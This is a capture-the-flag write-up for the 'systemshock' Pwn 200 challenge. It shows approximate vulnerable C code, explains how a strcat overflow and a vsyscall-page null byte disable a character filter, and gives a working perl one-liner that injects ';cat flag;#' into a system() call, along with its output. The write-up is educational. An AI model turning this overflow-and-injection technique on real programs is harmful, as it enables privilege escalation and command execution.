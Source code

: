 # systemshock - Pwn 200 problem

systemshock was a local 64 bit pwnable with stack canaries. The code looked
something like this (with the stack canary code omitted):

```c
int main(int argc, char **argv) {
  int i;
  char buf[256] = "id ";
  zero_environment();

  if (argv[1]) {
    strcat(dest, argv[1])
    for (i = 0; i < strlen(argv[1]) + 3; ++i) {
      if (!isalnum(dest[i]) && dest[i] != ' ') {
        return 1;
      }
    }
    return system(buf);
  }

  return 0;
}
```

There is a an obvious buffer overflow on the `strcat` call. Normally, we'd like
to inject additional shell commands in `buf`, but the validation loop checks
that all characters are alphanumeric or space. However, we can use the `strcat`
to overwrite `argv[1]` with an empty string.  I used a null byte in the
vsyscall page, since the vsyscall page is always loaded at the same address,
and the vsyscall page has addresses that contain no zeros (since otherwise the
`strcat` would terminate).

Now that we've disabled the validation loop into terminating, we can do shell injection cat the flag:

```
$ ./shock "$(perl -e '$x = ";cat flag;#";print $x,"A"x(0x128+0xe8-3-length($x)),pack("Q",0xffffffffff600404)')"
B9sdeage OVvn23oSx0ds9^^to NVxqjy is_extremely Hosx093t
Segmentation fault
```

